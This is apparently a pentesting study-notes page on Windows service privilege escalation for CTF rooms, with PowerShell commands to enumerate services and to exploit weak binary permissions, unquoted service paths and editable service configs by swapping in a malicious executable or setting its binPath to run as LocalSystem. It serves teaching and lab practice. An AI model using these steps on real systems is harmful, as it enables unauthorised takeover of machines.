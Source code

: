 # Windows services

[Go back](../index.md#windows-privilege-escalation-)

[![windowsprivesc20](../../../_badges/thmp/windowsprivesc20.svg)](https://tryhackme.com/room/windowsprivesc20)
[![steelmountain](../../../_badges/thmp-p/steelmountain.svg)](https://tryhackme.com/room/steelmountain)

<div class="row row-cols-md-2"><div>

Windows services are managed by the Service Control Manager <small>(SCM)</small>.

* 🗺️ List services

```shell!
PS> Get-Service
PS> net start
PS> sc.exe query # with infos
```

* 🔎 Get more info about a service

```shell!
PS> sc.exe qc xxx
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: xxx
  [...]
  BINARY_PATH_NAME   : C:\[...]\service.exe
  [...]
```

🔥 In CTFs, you may be able to start/stop the service manually

```shell!
PS> sc.exe stop xxx
PS> # do your job
PS> sc.exe start xxx
```

➡️ See also: [Potatoes](https://jlajara.gitlab.io/Potatoes_Windows_Privesc) 🥔 and [SweetPotato](https://github.com/CCob/SweetPotato) (1.2k ⭐).

👉 [PrintNightmare](https://github.com/cube0x0/CVE-2021-1675) (CVE-2021-1675) vulnerability in Spooler service.

</div><div>

#### Common flaws

➡️ **Insecure permissions**: the current user may be able to replace the service with a malicious executable (ex: revshell.exe)

```shell!
PS> icacls C:\[...]\service.exe
PS> move C:\[...]\service.exe C:\[...]\service.exe.old
PS> icacls C:\[...]\malicious.exe /grant Everyone:F
```

➡️ **Unquoted Service Paths**: if the service is using a PATH in which there are spaces, the service isn't quoted, and the hacker can create files, then the hacker may create an executable that is executed with the rest of the path in argument.

```shell!
PS> icacls $Env:appdata\Vulnerable Program\service.exe
PS> move C:\[...]\malicious.exe $Env:appdata\Vulnerable.exe
PS> # the service will execute
PS> # $Env:appdata\Vulnerable.exe Program\service.exe
```

➡️ **Insecure Service Permissions**: it occurs if we can edit the permissions of a service, such as being able to change the location of the binary. Use the [accesschk](https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk) command. If the user is granted `SERVICE_ALL_ACCESS` on the service, then have fun.

```shell!
PS> # LocalSystem is the highest privileged account available
PS> sc.exe config xxx binPath=C:\[...]\malicious.exe  obj= LocalSystem
```
</div></div>